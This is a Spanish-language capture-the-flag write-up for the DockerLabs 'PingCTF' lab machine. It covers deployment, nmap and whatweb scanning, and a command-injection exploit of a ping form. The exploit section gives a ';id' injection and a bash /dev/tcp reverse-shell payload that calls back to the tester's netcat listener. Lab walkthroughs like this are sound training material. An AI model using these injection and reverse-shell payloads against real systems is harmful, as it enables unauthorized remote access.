







## DESCARGA Y MONTAJE DE MÁQUINA VICTIMA

Nos dirigimos a la página:


```bash
https://dockerlabs.es/
```

y alli a al enlace de la máquina vulnerable llamada `PingCTF` del autor: `borazuwarah`:

```bash
https://mega.nz/file/jVdVyYYK#Cl7k02bD1IHF6_j1tljf497k4l7uPq2QxzJQvs1tqoY
```




movemos la descarga a la carpeta de trabajo con:

```bash
mv /ruta_a_mi_carpeta_de_trabajo
```
descargamos con un unzip el contenido comprimido con zip:

```bash
unzip PingCTF.zip
```

y ejecutamos este comando para subir la máquina vulnerable

```bash
sudo bash auto_deploy.sh ping_ctf.tar
```





Ya tenemos la direccón de la máquina vulnerable--->`172.17.0.2`


## FASE DE ENUMERACIÓN

Realizaremos un escaneo de los puertos que tiene abiertos la máquina vulnerable, y si los tiene, vamos a ver los servicios que corren en ellos y sus versiones:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```




Solamente esta abierto el puerto 80 donde corre http, sin más vamos a lanzar un whatweb por si nos reportara algo:


```bash
whatweb 172.17.0.2 | tee whatweb
```




Solamente sacamos en claro que coore un apache 2.4.58

Con todo esto nos vamos a la página web : `http://172.17.0.2`

Vemos un panel, con el cual podemos comprobar la conectividad con una ip, pruebo algunas y no da resultado, asi que pruebo a inyectar un comando con una ip seguida de punto y coma
y un comando:

```bash
127.0.0.1;id
```




Y parece que da resultado:



Vamos a crear una reverse shell y enviarla; en mi caso ejecuto este comando:

```bash
bash -c "bash -i >& /dev/tcp/<TU IP>/<PUERTO EN ESCUCHA> 0>&1"
```

podeis encontrar las reverse shell en:

```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
```

nos ponemos en nuestra máquina kali a la escucha por el puerto 445:

```bash
sudo nc -lvnp 445
```

e introducimos y ejecutamos en la página web:

```bash
127.0.0.1;bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

Y estamos dentro



